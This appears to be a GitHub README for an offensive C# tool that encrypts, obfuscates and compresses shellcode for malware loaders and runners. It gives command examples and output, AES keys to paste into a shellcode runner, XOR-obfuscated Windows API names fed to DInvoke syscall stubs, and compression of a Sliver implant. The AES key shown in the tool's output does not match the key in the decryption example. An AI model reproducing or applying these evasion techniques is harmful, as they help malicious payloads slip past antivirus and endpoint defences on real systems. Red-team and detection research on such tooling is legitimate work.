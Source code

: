 # LikesEvasion

Various obfuscation and decryption functionality for loaders, droppers, runners.

## Usage

```
LikesEvasion 1.0.0.2
Copyright c  2022

  -i, --input     Required. Input file to be processed (e.g. beacon.bin)

  -m, --mode      Required. Encryption/encoding mode (aesCs,caesarCs,caesarVba,xorCs,xorCsString,gzip,ungzip)

  -o, --output    Output filename

  --help          Display this help screen.

  --version       Display version information.
```

## Examples

### C# AES Bin Payload

The following example encrypts the bin file using AES and stores the output in a text file. The text file can be added as a resource to a runner. 

```
PS> .\LikesEvasion.exe -m aescs -i .\calc.bin -o .\calc.bin.aes
[>] Initializing...
[>] Mode: aescs
[>] Input mode: bin
[>] Reading bytes from: .\calc.bin
[>] Bytes read: 276
[>] Storing buffer in .\calc.bin.aes
[>] Writing output file
[>] Copy & paste into shellcode runner
-----
byte[] buf = loadResource(...);

byte[] iv = new byte[16] {0x30, 0xb1, 0xfb, 0x8a, 0xf8, 0xf5, 0x22, 0x41, 0x6a, 0xf1, 0xeb, 0xda, 0x29, 0xd7, 0x98, 0xb5};
byte[] key = new byte[32] {0x7b, 0xf7, 0xb3, 0x83, 0xb0, 0x07, 0x56, 0x44, 0xac, 0xfa, 0x56, 0x0a, 0x83, 0xd2, 0xfe, 0x88, 0x86, 0x95, 0x28, 0x4a, 0x27, 0xea, 0x07, 0xf3, 0x6b, 0x07, 0x1f, 0xda, 0xa6, 0x6b, 0x98, 0x46};
-----
[>] Thanks to @xct_de
```

An example decryption routine can be found in the [DecryptAesCsharpBytes.cs](./LikesEvasion/Templates/DecryptAesCsharpBytes.cs) template. Copy the `iv` and `key` strings into the runner and decrypt:

```
static void Main(string[] args)
{
    [...]
    byte[] iv = new byte[16] { 0x30, 0xb1, 0xfb, 0x8a, 0xf8, 0xf5, 0x22, 0x41, 0x6a, 0xf1, 0xeb, 0xda, 0x29, 0xd7, 0x98, 0xb5 };
    byte[] key = new byte[32] { 0xe6, 0xd6, 0x69, 0x4e, 0x5b, 0x01, 0xd2, 0xb0, 0xf8, 0x43, 0xe0, 0x3f, 0xd9, 0xc8, 0x6f, 0x9c, 0x2a, 0x04, 0x50, 0x42, 0x65, 0x3b, 0xdb, 0xcb, 0x12, 0x92, 0xd8, 0xa6, 0x0a, 0x0d, 0x2d, 0x44 };

    byte[] buf = Decrypt(encrypted, key, iv);
    [...]
}
```

### C# XOR String

Perform string obfuscation:

```
PS> .\LikesEvasion.exe -m xorCsString -i NtAllocateVirtualMemory
[>] Initializing...
[>] Mode: xorCsString
[>] Input mode: string
[>] Encrypting string: NtAllocateVirtualMemory
[>] encrypting 1 entries
[>] key: 0x45, 0x59, 0x54, 0x38, 0x4a, 0x64, 0x71, 0x57, 0x57, 0x70, 0x4a, 0x70, 0x49, 0x47, 0x43, 0x52, 0x31, 0x34, 0x33, 0x46, 0x77, 0x6a, 0x45, 0x41, 0x63, 0x58, 0x47, 0x4c
[>] exec stub:

//  NtAllocateVirtualMemory
LikesEvasion.Evade.Deflate(LikesEvasion.Evade.FromHex("0b2d1554260b123623151c193b3336335d79562b18183c"),LikesEvasion.Evade.FromHex("455954384a64715757704a704947435231343346776a45416358474c"));
```

Next, add the decryption routine to a program. An example decryption routine can be found in the [DecryptXorCsharpString.cs](./LikesEvasion/Templates/DecryptXorCsharpString.cs) template. Example decryption:

```
static void Main(string[] args)
{
    Console.WriteLine(LikesEvasion.Evade.Deflate(LikesEvasion.Evade.FromHex("0b2d1554260b123623151c193b3336335d79562b18183c"), LikesEvasion.Evade.FromHex("455954384a64715757704a704947435231343346776a45416358474c")));
    
}
```

PoC output:

```
PS> .\PocXorStub.exe
NtAllocateVirtualMemory
```

Usage with DInvoke example:

```
static void Main(string[] args)
{
    [...]
    IntPtr syscall = DInvoke.DynamicInvoke.Generic.GetSyscallStub(LikesEvasion.Evade.Deflate(LikesEvasion.Evade.FromHex("0b2d1554260b123623151c193b3336335d79562b18183c"), LikesEvasion.Evade.FromHex("455954384a64715757704a704947435231343346776a45416358474c")));
    DInvoke.DynamicInvoke.Native.DELEGATES.NtAllocateVirtualMemory syscallAllocateVirtualMemory = (DInvoke.DynamicInvoke.Native.DELEGATES.NtAllocateVirtualMemory)Marshal.GetDelegateForFunctionPointer(syscall, typeof(DInvoke.DynamicInvoke.Native.DELEGATES.NtAllocateVirtualMemory));
    [...]
}
```

### Gzip bin

Use the `gzip` mode to compress a bin. In the following example, the 11 MB sliver bin is reduced to 4 MB. 

```
PS> .\LikesEvasion.exe -m gzip -i .\SLIVER.bin -o .\SLIVER.bin.gzip
[>] Initializing...
[>] Mode: gzip
[>] Input mode: bin
[>] Reading bytes from: .\SLIVER.bin
[>] Bytes read: 10878164
[>] Storing buffer in .\SLIVER.bin.gzip
[>] Compressing buffer
[>] Compressed size: 3897189
[>] Writing output file
```